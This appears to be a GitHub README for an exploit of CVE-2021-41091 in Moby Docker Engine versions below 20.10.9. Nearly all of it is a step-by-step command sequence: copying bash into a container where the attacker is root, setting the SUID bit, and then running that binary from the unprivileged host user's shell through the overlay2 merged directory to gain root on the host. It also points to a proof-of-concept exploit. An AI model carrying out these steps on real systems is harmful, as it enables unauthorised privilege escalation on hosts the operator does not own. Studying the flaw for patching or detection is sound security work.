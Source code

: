 # Moby Docker Engine CVE-2021-41091

## Repo: https://github.com/UncleJ4ck/CVE-2021-41091

## Requirements: 

### 1) Root Access in the container

### 2) Docker is version below < 20.10.9

## Steps:

 - Host shell: docker --version (Confirm if the docker version is vulnerable)

 - Host shell: findmnt (Display the mounts connected to the system, inclusing those used by Docker containers)

 - Containerised root shell: mount (Also verify within the container)

 - Host shell: cd /var/lib/docker/overlay2/cewdfbnkwejfwe98f67w8e/merged && ls -la (Check if we have access to the container as the low privileged user from the host OS)

 - Containerised root shell: cp /bin/bash /

 - Containerised root shell: chmod u+s /bash (Abuse root privileges within the container to give SUID bit to bash binary)

 - Host shell: /var/lib/docker/overlay2/cewdfbnkwejfwe98f67w8e/merged/bash -p (Gain root on the host OS)

## TIP: You can use the PoC exploit for further ease of use.
